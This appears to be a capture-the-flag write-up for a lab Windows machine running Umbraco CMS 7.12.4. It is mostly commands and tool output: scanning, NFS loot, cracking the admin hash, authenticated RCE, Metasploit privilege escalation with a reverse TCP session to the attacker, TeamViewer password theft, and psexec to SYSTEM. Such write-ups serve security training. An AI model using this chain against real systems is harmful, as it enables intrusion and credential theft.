 # Remote

## SYN Scan
```
nmap -sS -sV -O -p- -v -T4 -Pn -oA nmap/full_syn 10.10.10.180

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC

Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Anonymous FTP
```
$ ftp 10.10.10.180            
Connected to 10.10.10.180.
220 Microsoft FTP Service
Name (10.10.10.180:cpt): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```

## Web Application (Umbraco)
![web_app](./screenshots/web_app.png)

http://10.10.10.180/umbraco
![umbraco](./screenshots/umbraco.png)

## NFS Share
```
$ showmount -e 10.10.10.180  
Export list for 10.10.10.180:
/site_backups (everyone)
```

## Umbraco Version Detection
Found the version in `Web.config`.
```xml
...
<add key="umbracoConfigurationStatus" value="7.12.4" />
...
```

## Umbraco Admin
Found admin's username in `UmbracoTraceLog.intranet.txt`.

```
...
 2020-02-20 02:23:15,368 [P3592/D3/T54] INFO  Umbraco.Core.Security.BackOfficeSignInManager - Event Id: 0, state: Login attempt succeeded for username admin@htb.local from IP address 192.168.195.137
...
```

Found admin's hash in `App_Data/Umbraco.sdf`.

```
$ strings Umbraco.sdf | grep -i admin
...         
Administratoradmindefaulten-US
Administratoradmindefaulten-USb22924d5-57de-468e-9df4-0961cf6aa30d
Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}en-USf8512f97-cab1-4a4b-a49f-0a2054c47a1d
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
...
```

### Cracking Admin's SHA1
https://hashes.com/en/tools/hash_identifier

```
b8be16afba8c314ad33d812f22a04991b90e2aaa - baconandcheese - Possible algorithms: SHA1
```

## Umbraco Admin Login
Logged in as administrator by using the credentails that were found.

http://10.10.10.180/umbraco

```
admin@local.htb:baconandcheese
```

![admin_panel](./screenshots/admin_panel.png)

## RCE via Vulnerable Umbraco Version
`Umbraco CMS 7.12.4` is vulnerable to remote code execution.

https://www.exploit-db.com/exploits/49488

```
$ python2 exploit.py -u admin@htb.local -p baconandcheese --host http://10.10.10.180 -c whoami
iis apppool\defaultapppool
```

## The User Flag
```
meterpreter > search -f user.txt
Found 1 result...
    c:\Users\Public\user.txt (34 bytes)
```

```
meterpreter > cat c:/users/public/user.txt
26b82f1266f9f32012cd6da07e8fff1a
```

## Local Exploit Suggester
```
msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.180 - Collecting local exploits for x64/windows...
[*] 10.10.10.180 - 26 exploit checks are being tried...
[+] 10.10.10.180 - exploit/windows/local/bypassuac_sdclt: The target appears to be vulnerable.
[+] 10.10.10.180 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The target appears to be vulnerable. Vulnerable Windows 10 v1809 build detected!
[+] 10.10.10.180 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.10.10.180 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.10.10.180 - exploit/windows/local/cve_2020_17136: The target appears to be vulnerable. A vulnerable Windows 10 v1809 build was detected!
[+] 10.10.10.180 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Post module execution completed
```

## Privilege Escalation (NT AUTHORITY\NETWORK SERVICE)
```
msf6 exploit(windows/local/cve_2020_17136) > exploit

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. A vulnerable Windows 10 v1809 build was detected!
[*] Dropping payload dll at C:\Windows\Temp\rKpDvlklfmMnZbnk.dll and registering it for cleanup...
[*] Running module against REMOTE
[*] Launching notepad.exe to host CLR...
[+] Process 1616 launched.
[*] Reflectively injecting the Host DLL into 1616..
[*] Injecting Host into 1616...
[*] Host injected. Copy assembly into 1616...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] Sync connection key: 2472642022912
[+] Done
[*] End output.
[+] Execution finished.
[*] Sending stage (200262 bytes) to 10.10.10.180
[*] Meterpreter session 5 opened (10.10.14.11:4444 -> 10.10.10.180:49705) at 2021-04-18 03:25:14 +0300

meterpreter > getuid
Server username: NT AUTHORITY\NETWORK SERVICE
```

## Privilege Escalation via Vulnerable TeamViewer Version
https://nvd.nist.gov/vuln/detail/CVE-2019-18988

```
msf6 post(windows/gather/credentials/teamviewer_passwords) > run

[*] Finding TeamViewer Passwords on REMOTE
[+] Found Unattended Password: !R3m0te!
[+] Passwords stored in: /home/cpt/.msf4/loot/20210418042717_default_10.10.10.180_host.teamviewer__675080.txt
[*] <---------------- | Using Window Technique | ---------------->
[*] TeamViewer's language setting options are ''
[*] TeamViewer's version is ''
[-] Unable to find TeamViewer's process
[*] Post module execution completed
```

```
$ psexec.py 'administrator:!R3m0te!'@10.10.10.180                                  
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.180.....
[*] Found writable share ADMIN$
[*] Uploading file PVDwapcd.exe
[*] Opening SVCManager on 10.10.10.180.....
[*] Creating service zlWj on 10.10.10.180.....
[*] Starting service zlWj.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

## The Root Flag
```
dir C:\users\administrator\desktop\


    Directory: C:\users\administrator\desktop


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-ar---        4/17/2021   7:35 PM             34 root.txt
```

```
cat C:\users\administrator\desktop\root.txt
2cee8e0c0e307e6d1cf286fd56ae9b5d
```